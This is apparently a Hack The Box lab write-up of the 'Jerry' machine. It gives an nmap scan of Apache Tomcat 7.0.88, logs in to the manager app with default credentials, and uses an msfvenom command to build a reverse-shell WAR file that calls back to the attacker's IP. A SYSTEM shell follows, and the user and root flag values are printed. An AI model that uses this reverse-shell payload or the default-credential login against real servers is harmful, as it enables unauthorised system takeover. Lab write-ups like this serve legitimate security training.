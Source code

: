 # Jerry
>Author : Xyan1d3
>Date : 10th July 2021
>IP : 10.10.10.95
>OS : Windows
>Difficulty : Easy
# Initial Enumeration
## Nmap
```sql
# Nmap 7.91 scan initiated Sat Jul 10 00:29:03 2021 as: nmap -sC -sV -v -oN nmap/jerry 10.10.10.95
Nmap scan report for jerry.htb (10.10.10.95)
Host is up (0.093s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
```

# Initial FootHold
We visit the site and find out that it is running apache tomcat.
![[Pasted image 20210710003714.png]]

We go to the `manager` app and try default credentials which are `tomcat` and `s3cret`.
![[Pasted image 20210710004248.png]]
We could now generate a malicious war file using `msfvenom`.
```python
┌─[Magisk@Xyan1d3]─[10.10.14.18]─[~/htb/jerry]
└──╼ # msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.18 LPORT=8888 -f war -o magisk.war
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of war file: 52383 bytes
Saved as: magisk.war
```

We upload and deploy the file on the `manager`.
![[Pasted image 20210710004824.png]]

We deploy the `war` file and visit the link.
![[Pasted image 20210710011202.png]]

We have to visit the jsp file inside which is inside the `war` file while listening on the port.
![[Pasted image 20210710011329.png]]

We visit the `jsp` file and get a shell on the box.
![[Pasted image 20210710011433.png]]

We get a shell on the box as `NT Authority/SYSTEM`.
![[Pasted image 20210710011534.png]]

## Getting user & root Flag
```python
C:\Users\Administrator\Desktop\flags>dir  
dir
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of C:\Users\Administrator\Desktop\flags

06/19/2018  07:09 AM    <DIR>          .
06/19/2018  07:09 AM    <DIR>          ..
06/19/2018  07:11 AM                88 2 for the price of 1.txt
               1 File(s)             88 bytes
               2 Dir(s)  27,602,296,832 bytes free

C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
type "2 for the price of 1.txt"
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
```
